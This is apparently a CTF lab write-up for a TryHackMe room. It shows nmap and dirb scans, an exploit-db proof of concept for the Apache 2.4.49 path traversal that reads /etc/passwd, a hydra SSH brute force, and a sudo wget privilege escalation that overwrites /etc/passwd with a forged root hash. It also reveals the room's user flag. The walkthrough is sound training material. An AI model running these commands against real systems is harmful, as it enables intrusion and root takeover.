 
# THM-basiclevelctf-Writeup
https://tryhackme.com/room/basiclevelctf

The first step is to find out which ports are open.

```
nmap -sCV -vv 192.168.1.19
```
![NMAP Resulst](images/nmap.png "NMAP")

From the output of nmap now we know that there are 2 open ports,
that is: port 22 that is running SSH, Port 80 running a http webserver.

1. Q: What are the names of the services on the open ports?
A: ssh,http

# Accessing the Webserver
We access port 80 and this is the result we get.

![Webserver](images/index.png)



# Finding directory

To find other pages or directories that may exist within the server
we can use any directory brute-force tools such as dirbuster,
gobuster, dirsearch etc. But In my case I want to use dirb.

```
dirb http://192.168.1.19/
```
![dirb](images/dirb.png)

# Checking robots.txt
After checking **robots.txt**, we realized that there is a file named **secret.lst** thanks to robots.txt and it is most likely a wordlist.

![robots.txt](images/robots.png)

![secret.lst](images/secretlst.png)

# Check exploit for open port 22 or 80
Now we only have a wordlist and the ssh service is open. But we did not investigate whether the service running on port 80 has any vulnerability, let's start researching.

![exploit](images/exploit.png)

It seems that the Apache HTTP Server 2.4.49 service has a vulnerability. Let's download the code and test it on our target machine. 
Reference: https://www.exploit-db.com/exploits/50406
```
chmod +x PoC.sh
echo "http://192.168.1.19" > targets.txt
./PoC.sh targets.txt /etc/passwd
```
![readpasswd](images/readpasswd.png)
Yes, we detected a "Path Traversal" vulnerability on our target machine.
And in this way, we have detected the user named **h1ddenuser** by reading the /etc/passwd file.

# SSH Bruteforce
I will use the **hydra** tool to make a bruteforce attack, you can use any tool you want.
```
hydra -l h1ddenuser -P /home/user00/Downloads/secret.lst -t 64 ssh://192.168.1.19
```
![SSH Bruteforce Attack](images/hydra.png)
We found the password of the user named **h1ddenuser** with a brute-force attack. Let's log in!
```
ssh h1ddenuser@192.168.1.19
```
![We are in!](images/wearein.png)

# Let's find out what we have
```
cd ~
ls -la
```
![User.txt](images/usertxt.png)

2. Q:  user.txt 
A: THM{se3ms_l1ke_ez_f0r_y0u!}

# Privilege Escalation
Let's try **sudo su**
```
sudo su
```
![sudo su](images/sudosu.png)
Aughh failed!
But it's okay. Let's try **sudo -l**
```
sudo -l
```
![wget](images/wget.png)

We can use the -O parameter of the **wget** tool to become root. Since it will work with sudo, the output file will also be written by root. This means that we can manipulate the /etc/passwd file as we wish.
But first we need read /etc/passwd file again for copy everything. 
After that create password with **openssl** as we will overwrite /etc/passwd.
```
openssl passwd -1 your_password
```
Output: `$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/`
Let's manipulate the /etc/passwd file.
On our own computer, I create a file named **etc-passwd** on the desktop and make its content like this.
```
root:$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
h1ddenuser:x:1000:1000:h1ddenuser:/home/h1ddenuser:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
